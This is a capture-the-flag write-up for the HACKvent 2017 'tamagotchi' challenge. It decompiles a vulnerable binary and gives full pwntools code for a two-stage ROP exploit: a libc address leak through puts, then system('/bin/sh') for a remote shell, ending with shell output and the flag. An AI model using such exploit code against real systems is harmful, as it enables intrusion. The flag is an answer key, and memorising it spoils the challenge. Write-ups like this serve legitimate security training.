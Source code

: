 # Day 21: tamagotchi
  
*ohai fuud or gtfo*

**ohai**

I'm a little tamagotchi who wants fuuuuud, pls don't giveh me too much or I'll crash...

`nc challenges.hackvent.hacking-lab.com 31337`

[File #1: tamagotchi](files/tamagotchi "tamagotchi") + [File #2: libc-2.26.so](files/libc-2.26.so "libc-2.26.so")

### Solution

"*pls don't giveh me too much or I'll crash...*" - hmm, sounds like buffer overflow vulnerability. 

```bash
$ file tamagotchi libc-2.26.so 
tamagotchi:   ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=bc180fb6cf42f3134c8b07c42c35f1efdbd88cc2, not stripped
libc-2.26.so: ELF 64-bit LSB shared object, x86-64, version 1 (GNU/Linux), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=6d2b609f0c8e7b338f767b08c5ac712fac809d31, for GNU/Linux 3.2.0, stripped
```

I tried to decompile it in IDA.

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int result; // eax
  char s; // [rsp+0h] [rbp-4D0h]
  char v5; // [rsp+400h] [rbp-D0h]
  int v6; // [rsp+4C8h] [rbp-8h]
  int v7; // [rsp+4CCh] [rbp-4h]

  v7 = 1;
  v6 = 0;
  show_title(*(_QWORD *)&argc, argv, envp);
  result = show_menu();
  while ( v7 )
  {
    puts("[ch01c3]> ");
    fgets(&s, 1024, _bss_start);
    v6 = atoi(&s);
    if ( v6 == 1 )
    {
      puts("[f00d]> ");
      fgets(&v5, 1024, _bss_start);
      result = puts("[+] nom nom nom ");
    }
    else if ( v6 == 2 )
    {
      result = puts("[+] bye bye");
      v7 = 0;
    }
    else
    {
      result = puts("[-] nope!");
    }
  }
  return result;
}
```

Those `fgets` calls looked promising so the next step was to find offset to overflow the buffer and overwrite RIP using `gdb`. Offset of 216 did the job.

Then I employed [`ropper`](https://github.com/sashs/ropper) to find a suitable ROP injection point.

```bash
ropper --file tamagotchi --search "% ?di"
0x0000000000400695: call 0x4b0; mov edi, 0x4008b7; call 0x4b0; pop rbp; ret;
0x00000000004006b9: call 0x4b0; mov edi, 0x400a5b; call 0x4b0; pop rbp; ret;
0x000000000040069a: mov edi, 0x4008b7; call 0x4b0; pop rbp; ret;
0x00000000004006be: mov edi, 0x400a5b; call 0x4b0; pop rbp; ret;
0x0000000000400550: mov edi, 0x601048; jmp rax;
0x00000000004006b6: or al, byte ptr [rax]; call 0x4b0; mov edi, 0x400a5b; call 0x4b0; pop rbp; ret;
0x0000000000400692: or dword ptr [rax], eax; call 0x4b0; mov edi, 0x4008b7; call 0x4b0; pop rbp; ret;
0x000000000040054f: pop rbp; mov edi, 0x601048; jmp rax;
0x0000000000400803: pop rdi; ret;
```

The last one at `0x400803` was perfect.

We can take advantage of given copy of `libc.so`, but since ASLR is enabled on the remote server we need to leak address of the library in memory first. To do that we need pass pointer to `puts` method to the `puts` call so the address gets printed. Then we can calculate all needed remote addresses from known offsets obtained by static analysis of provided `libc` library.

```python
from pwn import *
from struct import *

r = remote("challenges.hackvent.hacking-lab.com", 31337)

rip_offset = 216                                # offset to RIP
rop = 0x400803                                  # pop rdi; ret;
puts_plt = 0x4004b0                             # puts@plt
main = 0x4006ca                                 # address of main() so we can jump back to the choice after getting the libc address

puts_got = 0x601018                             # puts() GOT                    - objdump -R tamagotchi | grep puts
puts_off = 0x078460                             # offset to puts() function     - readelf -s libc-2.26.so | grep puts
system_off = 0x47dc0                            # system offset in libc         - readelf -s libc-2.26.so | grep system
bin_sh_off  = 0x1a3ee0                          # shell offset in /bin/sh       - objdump -s libc-2.26.so | grep /bin/sh

# buffer to leak remote puts() address
buf_leak = "A"*rip_offset
buf_leak += pack("<Q", rop)
buf_leak += pack("<Q", puts_got)
buf_leak += pack("<Q", puts_plt)
buf_leak += pack("<Q", main)

# stage 1: read the remote puts() address
print r.recvuntil("[ch01c3]>")
r.sendline("1")
print r.recvuntil("[f00d]>")
r.sendline(buf_leak)
print r.recvuntil("[ch01c3]>")
r.sendline("2")
print r.recvuntil("[+] bye bye\n")

# calculate remote addresses from known offsets
puts_got_val = u64(r.recv(6) + "\x00"*2)
libc_base = puts_got_val - puts_off
system = libc_base + system_off
bin_sh = libc_base + bin_sh_off

print "[+] libc base at: 0x%08x" % libc_base
print "[+] system() at: 0x%08x" % system
print "[+] /bin/sh at: 0x%08x" % bin_sh
```

It worked like a charm! Now it was time to do the second buffer overflow to get RCE and remote shell access. I used the same ROP injection point to call `system()` with address of `/bin/sh` as its argument and then switched to interactive mode to be able to execute commands.

```python
# buffer to get remote command execution
buf_rce = "A"*rip_offset
buf_rce += pack("<Q", rop)
buf_rce += pack("<Q", bin_sh)
buf_rce += pack("<Q", system)

# stage 2: pwn
print r.recvuntil("[ch01c3]>")
r.sendline("1")
print r.recvuntil("[f00d]>")
r.sendline(buf_rce)
print r.recvuntil("[ch01c3]>")
r.sendline("2")
print r.recvuntil("[+] bye bye\n")

r.interactive()
```

The complete source code of this remote exploit can be found [here](../../src/main/python/hackvent2017/Day21.py).

Once I got the remote shell it was pretty straightforward.

```bash
$ $ ls /home
tamagotchi
$ cd /home/tamagotchi
$ ls
flag  tamagotchi
$ cat flag
HV17-pwn3d-t4m4g0tch3y-thr0ugh-f00d
```

The result flag:

```
HV17-pwn3d-t4m4g0tch3y-thr0ugh-f00d
```